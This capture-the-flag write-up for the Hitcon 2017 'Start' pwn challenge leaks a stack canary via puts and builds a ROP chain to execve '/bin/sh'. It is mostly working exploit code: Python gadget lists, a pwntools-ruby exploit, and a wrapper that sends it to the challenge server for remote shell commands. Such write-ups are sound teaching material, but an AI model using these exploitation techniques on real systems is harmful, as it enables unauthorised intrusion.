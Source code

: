 ```yaml
---
title: Hitcon CTF 2017 - Start
date: '2017-11-06'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hitcon2017
tags:
- pwn
authors:
- andreafioraldi
---
```


The given binary is static.

Checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The main procedure is so simple:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  alarm(10LL, argv, envp);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  while ( read(0LL, &v4, 217LL) != 0 && (unsigned int)strncmp(&v4, "exit\n", 5LL) )
    puts(&v4);
  return 0;
}
```

If we have a leak of the canary we can overwrite the return address with the buffer overflow.

Sending 24 characters and newline the puts call will print out the canary (overwriting the last byte, but it is always 0).

It's time to build a rop chain.

I used ROPGadget to generate it but it was too long.

So i changed the chain a bit:

```python
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += p64(0x4141414141414141) # padding
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042732f) # xor rax, rax ; ret
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004005d5) # pop rdi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x0000000000443776) # pop rdx ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x0000000000468320) # add rax, 1 ; ret
p += p64(0x0000000000468e75) # syscall ; ret
```

Ok now we must build the exploit using pwntools-ruby:

```ruby
z = Sock.new '127.0.0.1', 31338;

#canary leak
z.sendline "A"*24 ;
z.recvline;
r = z.recvline;
canary = "\x00" + r[0..6];

#build payload
p = "a"*24 + canary + p64(0x6cc018); #0x6cc018 id rbp
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc080);
p += p64(0x000000000047a6e6);
p += '/bin//sh';
p += p64(0x4141414141414141);
p += p64(0x4141414141414141);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x000000000042732f);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004005d5);
p += p64(0x00000000006cc080);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x0000000000443776);
p += p64(0x00000000006cc088);
p += p64(0x000000000042740e);
p += p64(0x000000000042740e);
p += p64(0x0000000000468320);
p += p64(0x0000000000468e75);
z.send p;
z.recvline;
z.sendline "exit"; #go to 'ret'

#send command to the shell
z.sendline("uname -a");
print z.recv(5000)
```

After testing it in localhost with socat, i wrote a python script that I used to send the ruby exploit:

```python
from pwn import *

def run(cmd):
    expl = '''z = Sock.new '127.0.0.1', 31338;z.sendline "A"*24 ;r = z.recvline;r = z.recvline;canary = "\x00" + r[0..6];p = "a"*24 + canary + p64(0x6cc018) ;p += p64(0x00000000004017f7);p += p64(0x00000000006cc080);p += p64(0x000000000047a6e6);p += '/bin//sh';p += p64(0x4141414141414141);p += p64(0x4141414141414141);p += p64(0x0000000000475fc1);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x000000000042732f);p += p64(0x0000000000475fc1);p += p64(0x00000000004005d5);p += p64(0x00000000006cc080);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x0000000000443776);p += p64(0x00000000006cc088);p += p64(0x000000000042740e);p += p64(0x000000000042740e);p += p64(0x0000000000468320);p += p64(0x0000000000468e75);z.send p;z.recvline;z.sendline "exit"; z.sendline("''' + cmd + '''"); print z.recv(5000)'''

    sh = remote("54.65.72.116", 31337)
    sh.recvuntil("> ")
    sh.sendline(expl)
    print sh.recvall()


c = raw_input("> ")
while c != "q":
    run(c)
    c = raw_input("> ")
```

Now you can navigate the filesystem and get the flag.
